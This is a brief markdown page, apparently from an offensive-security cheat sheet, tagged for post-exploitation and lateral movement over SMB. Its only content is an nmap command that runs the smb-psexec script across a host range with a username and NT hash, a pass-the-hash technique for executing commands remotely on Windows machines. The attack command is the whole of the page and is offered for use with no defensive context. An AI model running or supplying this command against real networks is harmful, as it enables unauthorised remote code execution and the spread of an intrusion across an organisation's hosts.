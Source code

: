 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - network-mapper
  - windows
---
```

# Network Mapper

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbusername=<username>,smbhash=<nt_hash>' <IP>/<CIDR>
```